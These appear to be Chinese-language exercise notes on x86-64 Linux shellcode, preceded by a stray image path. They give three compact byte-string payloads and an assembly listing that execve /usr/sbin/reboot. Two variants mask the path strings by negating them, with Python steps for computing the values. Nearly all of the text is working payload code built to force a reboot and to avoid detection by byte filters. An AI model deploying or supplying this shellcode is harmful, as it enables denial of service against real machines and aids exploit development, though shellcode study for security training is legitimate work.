 #### 1.**38bit**黄

```
\x48\x31\xd2\x52\x48\xbb\x6e\x2f\x72\x65\x62\x6f\x6f\x74\x53\x48\xbb\x2f\x75\x73\x72\x2f\x73\x62\x69\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05
```

#### 2.**44bit**黄

```
\x48\x31\xd2\x52\x48\xbb\x92\xd0\x8d\x9a\x9d\x90\x90\x8b\x48\xf7\xdb\x53\x48\xbb\xd1\x8a\x8c\x8d\xd0\x8c\x9d\x96\x48\xf7\xdb\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05
```

#### 3.. 改**47bit**

python  //启动python
string = "/usr/sbi"

string[::-1].encode('hex')  //'6962732f7273752f'   neg 969d8cd08d8c8ad1

string="n/reboot"
string[::-1].encode('hex') //746f6f6265722f6e     neg    8b90909d9a8dd092

```
global _start
section .text
 
_start:
	mov		al, 0x3b
	xor		rdx, rdx
	push  	rdx
	mov		rbx,0x8b90909d9a8dd092
	neg 	rbx
	push	rbx
	mov 	rbx,0x969d8cd08d8c8ad1
	neg 	rbx
	push 	rbx
	mov		rdi, rsp
	xor		rdx, rdx
	push		rdx
	push		rdi
	mov		rsi, rsp
	syscall
```



```
\xb0\x3b\x48\x31\xd2\x52\x48\xbb\x92\xd0\x8d\x9a\x9d\x90\x90\x8b\x48\xf7\xdb\x53\x48\xbb\xd1\x8a\x8c\x8d\xd0\x8c\x9d\x96\x48\xf7\xdb\x53\x48\x89\xe7\x48\x31\xd2\x52\x57\x48\x89\xe6\x0f\x05

```



### 2.使用sys_reboot  调用号169      （需要运行加sudo）
